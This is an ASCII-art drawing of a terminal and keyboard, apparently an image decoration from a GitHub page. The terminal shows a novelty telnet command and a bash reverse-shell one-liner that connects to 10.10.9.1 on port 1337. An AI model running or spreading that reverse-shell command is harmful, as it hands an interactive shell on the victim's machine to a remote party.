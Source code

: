 **********************************************************************************
* $ bash -i >& /dev/tcp/10.10.9.1/1337 0>&1                                      *
* $ telnet towel.blinkenlights.nl                                                *
*                                                                                *
*                                                                                *
*                                                                                *
*                                                                                *
*                                                                                *   
*                                                                                *
*                                                                                *
**********************************************************************************
  ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
  ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP           -------
  TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN           |  |  |
  CAPS     a s d f g h j k l : "     ENTER                             |     |
  SHIFT     z x c v b n m , . /      SHIFT          |                  |_____|
  CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL    <- _ ->
